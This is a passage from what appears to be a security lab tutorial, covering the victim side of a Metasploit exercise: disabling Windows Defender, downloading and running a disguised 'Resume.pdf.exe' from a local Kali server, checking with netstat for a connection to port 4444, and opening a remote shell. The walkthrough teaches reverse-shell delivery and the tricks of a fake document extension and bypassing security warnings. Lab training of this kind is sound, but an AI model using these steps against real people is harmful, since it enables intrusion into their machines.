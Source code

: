 ### 🪟 Step 6: On the Windows Test Machine

1. **Disable Windows Defender**:
    
    - Go to:  
        `Windows Security > Virus & threat protection > Manage Settings`
        
    - Turn off **Real-time Protection**
        
2. **Open browser** and visit:
    
    ```
    http://192.168.20.11:9999
    ```
    
3. Download `Resume.pdf.exe`.  
    If you see a warning about the file not being commonly downloaded — ignore it _only for this lab_.
    
4. **Run the file**.  
    If Windows shows a warning, choose **Run anyway**.
    

---

### 🧪 Step 7: Confirm the Connection

Open Command Prompt as Administrator and run:

```bash
netstat -anob
```

🔍 Look for:

- An **established connection** to Kali’s IP:4444
    
- Check the **Process ID** (e.g., 10208)
    
- Open **Task Manager > Details** tab, find that PID → it should be `Resume.pdf.exe`
    

✅ If yes — your malware has executed successfully.

---

### 💻 Step 8: Back on Kali – You Have a Shell!

In the **Metasploit handler**, you should now see a session opened.

Type:

```bash
help
```

Try:

```bash
shell        # Spawn a shell on victim machine
```
